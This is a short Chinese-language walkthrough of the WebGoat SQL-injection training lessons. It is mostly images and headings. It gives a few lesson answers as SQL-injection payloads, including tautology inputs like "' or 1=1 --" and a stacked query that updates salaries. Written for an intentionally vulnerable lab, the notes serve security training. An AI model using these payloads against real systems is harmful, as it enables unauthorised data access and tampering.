










# 第四章：渗透测试靶场实战

## WebGoat 靶场

## SQL Injection (intro)

### 2 查询

### 3 数据操作

### 4 数据定义

### 5 数据控制

### 9 字符型
第一种

第二种

### 10 数字型
login_count:1
userid:1 or 1=1

### 11 损害机密性
Employee Name:' or 1=1 --
TAN:3SL99A

### 12 损害完整性
Employee Name:' or 1=1; UPDATE employees SET SALARY = '99999999' WHERE auth_tan='3SL99A'--
TAN:3SL99A

### 13 损害可用性

## SQL Injection (advanced)

### 3
.png)